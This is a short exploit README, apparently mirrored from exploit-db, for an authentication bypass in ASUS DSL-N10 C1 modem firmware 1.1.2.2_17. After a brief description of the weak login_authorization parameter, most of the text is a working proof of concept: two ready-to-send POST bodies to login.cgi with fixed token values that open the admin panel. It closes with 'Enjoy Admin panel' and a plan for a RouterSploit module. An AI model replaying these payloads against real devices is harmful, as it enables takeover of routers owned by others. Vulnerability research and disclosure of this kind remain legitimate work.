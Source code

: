 # ASUS-DSL-N10---Authentication-Bypass

# Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team
Date: 2018-08-06
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/
Sofrware version: 1.1.2.2_17
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://<Your Modem IP>/login.cgi
 
Send this post data:
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
Or this post data:
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

## 3. Enjoy Admin panel

## links
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop RouterSploit  module for this vulnerability
